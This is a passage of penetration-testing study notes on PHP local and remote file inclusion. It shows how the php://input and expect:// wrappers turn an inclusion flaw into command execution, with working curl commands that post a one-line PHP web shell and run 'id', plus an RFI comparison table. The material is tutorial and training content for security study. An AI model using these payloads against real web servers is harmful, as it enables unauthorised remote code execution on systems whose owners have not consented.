 Same as with the `data` wrapper, in order for this to be successful `allow_url_include` must be set.

```sh
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://server:PORT/index.php?language=php://input&cmd=id" | grep uid

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Expect

This allows us also to directly run commands through URL streams. 

Here we don't need to provide a web shell, because it is designed to execute commands.

This is an `external wrapper` so it needs to be installed manually and enabled on the back-end server, and some web apps need this for their core functionality.

We can see if itt's installed on the backend in the same way as we did with the `allow_url_include`, but we `grep` for `expect`:

```sh
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
extension=expect
```

And then the `expect` wrapper can be used as follows:

```sh
curl -s "http://server:PORT/index.php?language=expect://id"
```

## Remote File Inclusion (RFI)

If the vulnerable function allows the inclusion of remote URLs, we can include remote files not only local files.

This allows two main benefits:
- Enumerating local-only ports and web apps (i.e. SSRF)
- Getting RCE by including a malicious script that we host

### LFI vs RFI

| Function | Read | Execute |Remote URL|
|----------|------|---------|----------|
|**PHP**||||
|_include(), /include_once()|yes|yes|yes|
|file_get_contents()|yes|no|yes|
|**Java**||||
|import|yes|yes|yes|
|**.Net**||||
|@Html.RemotePartial()|yes|no|yes|
|include|yes|yes|yes|
